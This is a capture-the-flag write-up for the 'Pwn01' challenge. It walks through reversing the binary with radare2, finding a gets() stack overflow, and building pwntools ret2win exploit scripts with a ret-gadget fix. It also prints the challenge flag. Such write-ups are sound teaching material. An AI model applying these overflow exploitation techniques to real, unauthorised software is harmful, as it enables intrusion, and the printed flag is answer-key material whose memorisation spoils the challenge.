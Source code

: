 Pwn01
=

Can you return my flag here?

### Files: [pwn01.zip](./pwn01.zip)

### Author: @mrerror0790 (community)

Quick Overview
=

This is just a basic program that seems to take our input and terminate ! Let's see 
how it works under the hood and if we have potential vulnerabilities

## Running the binary

```
┌───────────────────────────────────────────────────────────────────────┐
│ ██████╗ ██╗   ██╗ █████╗ ██████╗ ██╗  ██╗     ██████╗████████╗███████╗│
│██╔═══██╗██║   ██║██╔══██╗██╔══██╗██║ ██╔╝    ██╔════╝╚══██╔══╝██╔════╝│
│██║   ██║██║   ██║███████║██████╔╝█████╔╝     ██║        ██║   █████╗  │
│██║▄▄ ██║██║   ██║██╔══██║██╔══██╗██╔═██╗     ██║        ██║   ██╔══╝  │
│╚██████╔╝╚██████╔╝██║  ██║██║  ██║██║  ██╗    ╚██████╗   ██║   ██║     │
│ ╚══▀▀═╝  ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝     ╚═════╝   ╚═╝   ╚═╝     │
└───────────────────────────────────────────────────────────────────────┘
Yo hackers give me the address to find out my way ............!
>qsdqsd

(binary terminated)
```

Information Gathering
=

The file is an ELF 64 executable (LSB) and the following securities are applied
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   67 Symbols	  No	0	
```

Seems we got lucky, there is no canary or PIE but NX is enabled and since libc wasn't given it's unlikely
to be ret2libc or shellcode injection.

Code
=

Reverse Engineering tool : **radare2**


Listing the functions in the binary we get this list : 
```
0x00401080    1     42 entry0
0x004010c0    4     31 sym.deregister_tm_clones
0x004010f0    4     49 sym.register_tm_clones
0x00401130    3     28 sym.__do_global_dtors_aux
0x00401160    1      2 sym.frame_dummy
0x00401290    1      1 sym.__libc_csu_fini
0x00401294    1      9 sym._fini
0x00401162    1     37 sym.way_out
0x00401040    1      6 sym.imp.puts
0x00401050    1      6 sym.imp.system
0x00401230    4     93 sym.__libc_csu_init
0x004010b0    1      1 sym._dl_relocate_static_pie
0x00401187    1    154 main
0x00401030    1      6 sym.imp.putchar
0x00401070    1      6 sym.imp.fflush
0x00401060    1      6 sym.imp.gets
0x00401000    3     23 sym._init
```

we get a lot of standard functions and the main function of the binary but also **sym.way_out**

**way_out**:
```asm
│           0x00401162      55             push rbp
│           0x00401163      4889e5         mov rbp, rsp
│           0x00401166      bf08204000     mov edi, str.Yo_buddy_you_got_me_out..._ ; 0x402008 ; "Yo buddy you got me out...!" ; const char *s
│           0x0040116b      e8d0feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401170      bf24204000     mov edi, str._bin_cat_flag.txt ; 0x402024 ; "/bin/cat flag.txt" ; const char *string
│           0x00401175      e8d6feffff     call sym.imp.system         ; int system(const char *string)
│           0x0040117a      bf36204000     mov edi, 0x402036           ; '6 @' ; "\n" ; const char *s
│           0x0040117f      e8bcfeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401184      90             nop
│           0x00401185      5d             pop rbp
└           0x00401186      c3             ret
```

Seems like the way_out function prints "Yo buddy you got me out...!" and read the flag file.
This seems like we're gonna have to make the program return to this function somehow.

Now let's check the main function for vulnerabilities.

**main**:
```asm
│           0x00401187      55             push rbp
│           0x00401188      4889e5         mov rbp, rsp
│           0x0040118b      4883ec30       sub rsp, 0x30 // Allocates 48 bytes on the stack
│           0x0040118f      897ddc         mov dword [rbp-0x24], edi    ; argc
│           0x00401192      488975d0       mov qword [rbp-0x30], rsi    ; argv
│           0x00401196      bf38204000     mov edi, 0x402038           ; '8 @' ; const char *s
│           0x0040119b      e8a0feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011a0      bf18214000     mov edi, str._______________ ; 0x402118 ; const char *s
│           0x004011a5      e896feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011aa      bfd8214000     mov edi, str.________       ; 0x4021d8 ; const char *s
│           0x004011af      e88cfeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011b4      bfa8224000     mov edi, str.________________________ ; 0x4022a8 ; const char *s
│           0x004011b9      e882feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011be      bf58234000     mov edi, str.______________________ ; 0x402358 ; const char *s
│           0x004011c3      e878feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011c8      bf08244000     mov edi, str._____________________ ; 0x402408 ; const char *s
│           0x004011cd      e86efeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011d2      bfc0244000     mov edi, str.__________________________ ; 0x4024c0 ; const char *s
│           0x004011d7      e864feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011dc      bf68254000     mov edi, str.               ; 0x402568 ; const char *s
│           0x004011e1      e85afeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011e6      bf48264000     mov edi, str.Yo_hackers_give_me_the_address_to_find_out_my_way_............_ ; 0x402648 ; "Yo hackers give me the address to find out my way ............!" ; const char *s
│           0x004011eb      e850feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011f0      bf3e000000     mov edi, 0x3e               ; '>' ; 62 ; int c
│           0x004011f5      e836feffff     call sym.imp.putchar        ; int putchar(int c)
│           0x004011fa      488b054f2e00.  mov rax, qword [obj.stdout] ; obj.__TMC_END__
│                                                                      ; [0x404050:8]=0
│           0x00401201      4889c7         mov rdi, rax                ; FILE *stream
│           0x00401204      e867feffff     call sym.imp.fflush         ; int fflush(FILE *stream)
│           0x00401209      488d45e0       lea rax, [rbp-0x20]
│           0x0040120d      4889c7         mov rdi, rax                ; char *s
│           0x00401210      b800000000     mov eax, 0
│           0x00401215      e846feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x0040121a      b800000000     mov eax, 0
│           0x0040121f      c9             leave
└           0x00401220      c3             ret
```

As we can see here arguments are being copied on the stack:
- argc -> rbp-0x24 (int64_t)
- argv -> rbp-0x30 (8 bytes pointer since this is x64)

And there is a 32 bytes char buffer left to fill the rest of the stack.
Then the program prints a whole bunch of text for the banner and asks
us for input ! 

Now the big red flag is that it's using the function **gets()** which is incredibly famous
for being absolutely trash since it generates buffer overflows like a charity for hackers.

Since we have a 32 bytes buffer, any input over 32 will start writing memory on the stack.
Considering that rbp is pushed on the stack at the start of the function the return address
RIP will jump to after the main function executes is stored at offset **40** from the start of our
buffer.

Now we have all the ingredients for a juicy overflow:
- Buffer overflow in the main frame
- the offset to overwrite RIP
- the address of the function to read the flag

Building the exploit
=

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./src/pwn01')
context.arch = 'amd64'
context.endian = 'little'

if args.REMOTE:
    io = remote("pwn01.ctf.teamquark.com", 65301)
else:
    io = elf.process()

io.recvuntil(b'>')

offset = 40
address = elf.symbols['way_out']

payload = b'A' * offset
payload += pack(address)

io.sendline(payload)
io.interactive()
io.close()
```

Running this does print the first message of the way_out function
but seems like we fucked up the stack too much for it to call system afterwards.

A common trick I use in order to fix stacks for function calls
is calling a *ret* gadget on the function address which should rebuild a "healthy" stack around the function call

Using **ROPgadget** we find this, 0x0000000000401016 : ret

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./src/pwn01')
context.arch = 'amd64'
context.endian = 'little'

if args.REMOTE:
    io = remote("pwn01.ctf.teamquark.com", 65301)
else:
    io = elf.process()

io.recvuntil(b'>')

offset = 40
ret_gadget =  0x401016
address = elf.symbols['way_out']

payload = b'A' * offset
payload += pack(ret_gadget)
payload += pack(address)

io.sendline(payload)
io.interactive()
io.close()
```

Now running the exploit we get this :
```
[~/Documents/CTF-Writeups/HackEnvision/pwn01]$ ./exploit.py REMOTE
quarkCTF{i7s_34sY_70_r37uN_0n_f14g}
```

And we got our flag! 

`quarkCTF{i7s_34sY_70_r37uN_0n_f14g}`

